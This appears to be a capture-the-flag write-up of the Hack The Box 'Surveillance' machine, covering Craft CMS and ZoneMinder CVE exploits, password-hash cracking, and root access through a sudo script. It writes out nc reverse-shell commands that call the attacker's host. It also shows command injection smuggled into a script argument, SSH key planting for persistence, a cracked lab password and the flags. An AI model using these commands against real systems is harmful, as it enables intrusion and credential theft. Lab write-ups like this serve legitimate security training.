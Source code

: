 # Surveillance

## Introduction <a href="#introduction" id="introduction"></a>

This writeup details the exploitation process of the "Surveillance" box on Hack The Box. The challenge is categorized as Medium difficulty and involves several stages.

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### Nmap

```bash
nmap -A -Pn 10.10.11.253
```

<figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

### Adding Domain to Hosts File

```bash
echo "10.10.11.245 surveillance.htb" | sudo tee -a /etc/hosts
```

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption><p><a href="http://surveillance.htb/">http://surveillance.htb/</a></p></figcaption></figure>

After explore the website, I found that **Powered by Craft CMS** that make me find the vulnerability. Bingo! I found it [https://github.com/Faelian/CraftCMS\_CVE-2023-41892](https://github.com/Faelian/CraftCMS\_CVE-2023-41892)

## Exploitation

```bash
python3 craft-cms.py http://surveillance.htb/
```

<figure><img src="../.gitbook/assets/image (59).png" alt=""><figcaption><p>Web Shell</p></figcaption></figure>

Now, we got web shell. Let go reverse shell.

```bash
#Reverse Shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <YOUR_IP> <YOUR_PORT> >/tmp/f
```

<figure><img src="../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

Let explore this, I Found **surveillance--2023-10-17-202801--v4.4.14.sql.zip** it might be useful. Let download it.

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

After read it, we found the username and hash password of Database.

<figure><img src="../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

### Crack the password

```bash
echo "39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec" >> hash_2.txt
```

```bash
hashcat -m 1400 hash_2.txt /usr/share/wordlists/rockyou.txt
```

* \-m 1400 (SHA-256 hashes)
* hash\_2.txt (hashed password)
* /usr/share/wordlists/rockyou.txt (wordlist)

<figure><img src="../.gitbook/assets/image (66).png" alt=""><figcaption><p>starcraft122490</p></figcaption></figure>

### Connect with SSH

```bash
ssh matthew@10.10.11.245
```

### User Flag

<figure><img src="../.gitbook/assets/image (68).png" alt=""><figcaption><p>1caf62cf720fba935d79236e8bd7b873</p></figcaption></figure>

## Privilege Escalation

### Create LinPEAS.sh

```bash
#Your localmachines
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > test.sh

chmod +x test.sh

scp test.sh matthew@IP:/home/matthew
```

### Run LinPEAS.sh

```bash
./test.sh
```

<figure><img src="../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

### Portforward using SSH

```bash
ssh -L 2222:127.0.0.1:8080 matthew@10.10.11.245
```

<figure><img src="../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

After see the ZoneMinder login pages, I find the vulnerability and got this one [https://github.com/rvizx/CVE-2023-26035](https://github.com/rvizx/CVE-2023-26035)

### Exploitation

```bash
python3 exploit.py -t <target_url> -ip <attacker-ip> -p <port>
```

<figure><img src="../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

### Create own SSH

```bash
#Your localmachines
ssh-keygen -t rsa -b 4096 -C "your_email@example.com" 

#Victims
mkdir -p ~/.ssh
chmod 700 ~/.ssh
touch ~/.ssh/authorized_keys
~

#Your localmachines
cat ~/.ssh/id_rsa.pub

#Victims
echo 'your_public_ssh_key' >> ~/.ssh/authorized_keys

#Your localmachines
ssh username@victim_server_ip
```

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

### Check sudo -l

```bash
sudo -l
ls /usr/bin/zm*.pl
```

<figure><img src="../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

And I read the **zmupdate.pl** that I see this find can run the command injection.

```bash
nano /tmp/test.sh
```

```bash
#Reverse Shell
#!/bin/bash
busybox nc <YOUR_IP> <YPUR_PORT> -e sh
```

```bash
chmod +x test.sh
```

### Run Scripts

```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/test.sh)' --pass=ZoneMinderPassword2023
#Password of the Database from LinPEAS.sh
```

### Root Flag

<figure><img src="../.gitbook/assets/image (76).png" alt=""><figcaption><p>325b3e5a72f2f53f1c95915464c2bf6f</p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
